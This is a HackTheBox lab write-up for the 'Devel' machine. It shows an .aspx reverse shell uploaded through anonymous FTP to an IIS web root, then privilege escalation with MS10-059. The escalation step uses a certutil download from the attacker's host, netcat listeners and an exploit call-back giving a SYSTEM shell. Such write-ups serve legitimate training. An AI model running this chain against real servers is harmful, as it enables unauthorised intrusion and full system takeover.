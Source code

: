 # Devel [HTB](https://app.hackthebox.com/machines/Devel). 
![devel-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/devel-01.png)



## Recon

Lets kick off our enumeration stage with `nmap`.

`nmap -sC -sV -p -A 10.129.141.58 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/nmap-res-02.png)



We have the following:

+ An FTP server with anonymous logins on port 21.
+ An IIS web server on port 80.

Lets start by connecting to the FTP and see if we can write files, or find anything interesting. 



### FTP 

Lets login: 

![ftp-login-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-login-03.png)



This is the root of the web server, `iisstart.htm` is the html for the site.
The `welcome.png` is what we see if we open the site: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/site-04.png)


If we can upload files to the FTP, we might be able to access them from the URL.
Lets see if we can write to the FTP: 

![ftp-put-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-put-05.png)



We can. Next logical step is to upload a reverse shell and run it from the URL.
Since this is a Microsoft IIS server we should use an `.aspx` reverse shell. 

`.aspx` are webpages generated by the ASP.NET framework running on Microsoft web servers. 
When we access a `.aspx` file via the URL, it should render out the webpage, 
(A.K.A executing the file...)


I found a great `.aspx` reverse shell [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx). Make sure to update your IP and port: 

![aspx-sock-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-sock-05.png)



Lets upload it via the FTP: 

![aspx-upload-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-upload-06.png)


Setup the listener with `nc -lnvp 9001`


And navigate to the file via the browser at `http://10.129.141.111/rshell.aspx` : 

![browse-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/browse-07.png)



It stalls, great sign, lets check the listener: 

![shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/shell-08.png)



We get a shell! Lets move to privilege escalation. 



## Privilege Escalation

In order to run winpeas we need a .NET version of 4.5.2 or higher, which we dont have:


`reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"`

![net-ver-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/net-ver-09.png)



So we cant run winpeas, how about PoweUp?, for that we need a powershell session. 
Trying to load a powershell session stalls indefinitely:

![ps-stall-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ps-stall-10.png)



So we cant run winpeas and we cant run powershell. lets try running [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). 

(make sure you install xlrd with `pip2 install xlrd==1.2.0`)


First we need to save the output of `systeminfo` from the target to a file on our attack machine. 
then we can run the exploit-suggester as such: 

`./windows-exploit-suggester.py --database 2023-07-18-mssb.xls --systeminfo systeminfo.txt`


![sugg-res-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/sugg-res-11.png)


Iv'e highlighted `ms10-059`, this vulnerability lays in the `Tracing for Services` feature on
Windows systems. This happens because the feature incorrectly places ACL's on registry keys,
which allows attackers to execute code with elevated privileges. While also unsafly allocating memory when processing craftred long strings.    

You can find the exploit [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059), save the `MS10-059.exe` file to your attack machine.


Lets transfer the exploit to our target machine. 
open an http server locally with `python3 -m http.server 8888`.

`cd` into a writable directory `cd c:\\windows\\temp` and download the exploit from the target with:
`certutil -urlcache -f http://10.10.14.21:8888/MS10-059.exe ms.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/transfer-12.png)


Start up the listener on the attack machine with `nc -lnvp 443`.

And run the exploit with `ms.exe 10.10.14.21 443`

![run-exploit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/run-exploit-13.png)


Lets check the listener: 

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/root-14png.png)


We got system! 
